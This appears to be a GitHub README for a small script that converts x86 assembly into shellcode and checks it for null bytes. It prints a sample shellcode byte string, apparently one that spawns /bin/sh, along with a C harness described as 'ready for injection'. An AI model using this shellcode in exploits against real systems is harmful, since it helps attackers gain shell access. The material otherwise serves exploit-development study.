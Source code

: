 # 0x86-assembely-shellcodeing

exploitation with assembly shellcodeing and i write a tool to out shellcodeing and checking for null bytes


#Usage

```shellcode.sh ./file.asm ```
it will generate like that :
``` 
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42
```
you can write it to file.c with

```shellcode.sh ./file.asm c ```
it will generate like that :
```
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42

 [+] Writing shellCode as shell.c ready for injection
 
```
and this is content of ```generatedfile.c```
```
int main(){

char shellcode[]="\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int (*execshell)();
execshell=(int(*)()) shellcode;

}
```
#Writen And Devleoped By 0xCrypt00o under the Mit license 

